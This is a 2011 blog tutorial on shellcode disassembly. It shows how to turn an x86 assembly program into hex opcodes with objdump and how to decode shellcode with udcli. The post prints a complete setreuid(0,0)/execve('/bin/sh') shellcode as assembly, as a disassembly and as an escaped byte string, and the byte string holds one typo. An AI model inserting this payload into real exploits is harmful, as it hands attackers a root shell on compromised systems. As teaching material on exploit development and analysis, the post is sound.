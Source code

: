 Title: Disassembly
Date: 2011-12-20 17:58
Author: isis agora lovecruft
Category: hacking
Tags: ASM, shellcode

<!-- PELICAN_BEGIN_SUMMARY -->

Often when doing exploit development, it's [necessary to extract hex
opcodes]({filename}/learning-assembly-through-writing-shellcode.html)
from an assembly or C program to generate shellcode.
Normally, to do this, one uses **objdump** as in the following example:

    ∃!isisⒶwintermute:~ ∴ cat shellcode.asm

<pre class="prettyprint lang-asm">
section .text
    global _start

_start:
    ;; setreuid (0,0)
    xor eax, eax      ;clear the eax registry
    mov al, 0x46      ;set the syscall # to decimal 70 or hex 46, one byte
    xor ebx, ebx
    xor ecx, ecx
    int 0x80          ;system interrupt to call kernel to execute syscall
    ;; spawn shellcode with execve
    xor eax, eax
    push eax          ;push a NULL value on the stack
    push 0x68732f2f   ;push '//sh' onto the stack
    push 0x6369622f   ;push '/bin' onto the stack
    mov ebx, esp      ;esp now points to '/bin/sh', so write to ebx
    push eax          ;push another NULL to terminate char* argv on stack
    push ebx          ;push pointer to '/bin/sh' onto stack
    mov ecx, esp      ;esp now holds the address of argv, so write to ecx
    xor edx, edx
    mov al, 0xb       ;set the syscall # to decimal 11 or hex b, one byte
    int 0x80          ;sytem interrupt to call kernel to execute syscall
</pre>

<pre class="prettyprint lang-bash">
    ∃!isisⒶwintermute:~ ∴ nasm -f elf shellcode.asm
    ∃!isisⒶwintermute:~ ∴ ld -melf_i386 -o shellcode shellcode.o
    ∃!isisⒶwintermute:~ ∴ objdump -d ./shellcode
    ./shellcode: file format elf32-i386
    Disassembly of section .text:
        08048060 <_start>:
        8048060: 31 c0            xor %eax,%eax
        8048062: b0 46            mov $0x46,%al
        8048064: 31 db            xor %ebx,%ebx
        8048066: 31 c9            xor %ecx,%ecx
        8048068: cd 80            int $0x80
        804806a: 31 c0            xor %eax,%eax
        804806c: 50               push %eax
        804806d: 68 2f 2f 73 68   push $0x68732f2f
        8048072: 68 2f 62 69 63   push $0x6369622f
        8048077: 89 e3            mov %esp,%ebx
        8048079: 50               push %eax
        804807a: 53               push %ebx
        804807b: 89 e1            mov %esp,%ecx
        804807d: 31 d2            xor %edx,%edx
        804807f: b0 0b            mov $0xb,%al
        8048081: cd 80            int $0x80
</pre>

So, from this example, the shellcode would be:

<pre class="prettyprint lang-bash">
    \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\x50\x68\x2f\2f\x73\x68\x68\x2f\x62\x69\x63\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
</pre>

<!-- PELICAN_END_SUMMARY -->

But! What if you have some shellcode, say from a nasty PDF that someone
sent you (though a malPDF's shellcode would be in JavaScript, and so it
would look like "%u68%u73%u2f%u2f"), and you don't want to have to sit
there with a hex-to-ascii chart looking everything up by hand just to
find out what this shellcode is doing? As it turns out, there's a handy
little thing called [udis86](http://udis86.sourceforge.net/)
to do all that boring work for you. You
have to download their tarball, then do:

<pre class="prettyprint lang-bash">
    $ ./configure && make && make install
</pre>

And run it with:

<pre class="prettyprint lang-bash">
    $ udcli
</pre>

Words can't describe how much I'm crushing on this program. Check this
out:

<pre class="prettyprint lang-bash">
    ∃!isisⒶwintermute:~ ∴ udcli -x \
    … 31 c0 b0 46 31 db 31 c9 cd 80 31 c0 50 68 2f 2f 73 68 68 2f 62 69 63 89 e3 50 53 89 e1 31 d2 b0 0b cd 80
    0000000000000000 31c0              xor eax, eax
    0000000000000002 b046              mov al, 0x46
    0000000000000004 31db              xor ebx, ebx
    0000000000000006 31c9              xor ecx, ecx
    0000000000000008 cd80              int 0x80
    000000000000000a 31c0              xor eax, eax
    000000000000000c 50                push eax
    000000000000000d 682f2f7368        push dword 0x68732f2f
    0000000000000012 682f626963        push dword 0x6369622f
    0000000000000017 89e3              mov ebx, esp
    0000000000000019 50                push eax
    000000000000001a 53                push ebx
    000000000000001b 89e1              mov ecx, esp
    000000000000001d 31d2              xor edx, edx
    000000000000001f b00b              mov al, 0xb
    0000000000000021 cd80              int 0x80
</pre>
